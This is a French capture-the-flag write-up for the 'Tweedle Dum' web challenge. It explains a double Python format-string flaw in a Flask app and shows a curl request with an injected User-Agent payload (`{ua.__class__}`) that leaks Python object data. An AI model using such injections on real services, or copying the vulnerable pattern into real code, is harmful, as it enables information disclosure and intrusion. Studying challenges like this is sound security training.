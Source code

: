 La challenge ce présente donc sous la forme d'une application web qui tourne sur le serveur flask.
Le seul endpoint qui semble atteignable est à la racine : `https://tweedle-dum.france-cybersecurity-challenge.fr/`

![Alt text](./img/1.png)

Si on se concentre sur le code, on comprend que notre **User-Agent** est render dans la template html:

- `render_template("index.html", msg=f"Hello {ua}".format(ua=ua))`
- `<div id="bubble">{{msg}}</div>` *(index.html)*

Ce genre de code n'est pas vulnérable à une `SSTI` *Server-Side-Template-Injection* puisque la variable `ua` est correctement render.

En revanche une subtilité rend ce code vulnérable à une attaque par `Format-String` :

```python
f"Hello {ua}".format(ua=ua)
```

La présence d'une *double* format string permet d'injecter un payload dans la variable `ua`

#### Explications :

- La première format string agit de la sorte:

  ```python
  >>> ua = 'vozec'
  >>> f"Hello {ua}"
  'Hello vozec'
  ```

- La seconde :
  ```python
  >>> ua = 'vozec'
  >>> "Hello {ua}".format(ua=ua)
  'Hello vozec'
  ```

##### Vulnérabilité :

Si on injecte ce type d’entrée : `{ua.__class__}`, la première format-string va créer cette string:

```python
"Hello {{ua.__class__}}"
```

et la seconde va render et remplacer `ua.__class__` par l'objet python correspondant.

On peut vérifier de cette manière :

```bash
curl https://tweedle-dum.france-cybersecurity-challenge.fr -H 'User-Agent:{ua.__class__}'
```

- Résultat:
```html
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Tweedle Dum</title>
    <link rel="stylesheet" href="/static/style.css" />
  </head>
  <body>
    <main>
      <div id="bubble">Hello &lt;class &#39;werkzeug.user_agent.UserAgent&#39;&gt;</div>
    </main>
    <!-- <a href="/console">Werkzeug console</a> -->
  </body>
</html>
```